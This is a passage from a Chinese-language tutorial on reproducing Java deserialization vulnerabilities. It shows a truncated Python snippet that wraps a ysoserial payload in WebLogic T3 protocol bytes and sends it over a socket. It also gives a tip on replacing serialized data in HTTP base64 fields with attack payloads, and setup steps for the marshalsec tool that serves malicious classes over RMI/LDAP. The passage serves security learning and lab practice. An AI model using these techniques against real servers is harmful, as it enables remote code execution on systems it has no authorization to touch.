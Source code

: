 ```
payloadObj = open(sys.argv[3],'rb').read()
payload='x00x00x09xf3x01x65x01xffxffxffxffxffx...........
payload=payload+payloadObj
payload=payload+'xfex01x00x00xacxedx00x05x73x72x...........
print 'sending payload...'
'''outf = open('payload.tmp','w')
outf.write(payload)
outf.close()'''
sock.send(payload)
```

可以看到是分为3部分的,

`payloadobj`其实就是我们`ysoserial`攻击payload。其他两部分主要是保证正常解析t3协议。

**PS.**

可以看出来作者在调试过程中花费的时间还是挺多的，所以如果我们小萌新想挖这个漏洞的话难度还是很大的，必须非常熟悉协议调试，及其java、python一些工具的编写的,但是平时的时候，我们可以跟一下http协议包的一些base64字段，解码看看，如果存在序列化数据，我们直接替换为payload可以尝试下，这里笔者还没遇到相关环境，所以只能提供一下思路了。



## 0x6 漏洞复现之练手篇

为了照顾萌新，也因为自身知识浅薄，笔者打算不从反序列化漏洞利用过程中用到RMI、JNDI、LDAP、JRMP、JMX、JMS等各种深奥的技术劝退小萌新,我们不如站在巨人的肩膀上，先搭建好环境复现一波，后续我们在慢慢深入探讨一些相关知识。(Ps.笔者觉得实践出快乐,单单研究是比较枯燥的,通过实践能很好得将知识或深或浅运用上)

这里我选取比较经典的三个应用典型的反序列化漏洞作为学习的例子。

首先我们要安装一个工具来开启RMI 或者 LDAP服务器

为什么会需要呢, 这里可以提前简单提一下，因为反序列化的过程中，我们不一定能找到直接执行命令的点，但是有一些远程加载恶意类的点来进行代码执行，所以为了匹配这种点，我们的恶意payload需要配置在相应的服务上，至于具体过程，下次我讲weblogic会再细谈,我们先把复现环境弄出来。

> marshalsec
[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

1.`git clone https://github.com/mbechler/marshalsec.git`

2.maven 编译

`mvn clean package -DskipTests`

3.使用方法

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.&lt;Marshaller&gt; [-a] [-v] [-t] [&lt;gadget_type&gt; [&lt;arguments...&gt;]]
```

4.常用的加载类方式

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200408191510814.png)

下面我们来使用这个工具。

### <a class="reference-link" name="0x6.1%20fastjson%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E"></a>0x6.1 fastjson 反序列化漏洞
